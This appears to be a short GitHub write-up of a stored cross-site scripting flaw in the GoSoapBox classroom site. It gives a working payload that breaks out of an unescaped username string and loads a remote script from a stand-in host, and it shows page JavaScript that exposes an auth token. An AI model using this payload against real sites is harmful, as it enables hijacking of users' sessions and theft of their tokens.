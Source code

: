 # GoSoapBox XSS

Input in this site is rarely filtered, and on the rare occasions that it is, 
it's done poorly, and in a way that can be bypassed with minimal effort.

Just to get it out of the way, here is the actual XSS vector:
`";//<svg onload="$.getScript('//example.com/abcd')"/>`

where example.com/abcd stands for any url to a script file

To understand why this vector is used, first, some background understanding of GoSoapBox is needed.

1. GoSoapBox uses a Firebase DB to hold its information

Because of this, at the bottom of the page, there's a snippet of JS that looks like this:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "my name";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

This js MUST be fully executed in order for the name to appear in the list of online users.

The problem is, any typical XSS vector would not show up in the list of online users,
since the given username is lazily concatenated into the javascript like so:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<svg onload="alert(1)"></svg>"; // Massive syntax error
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

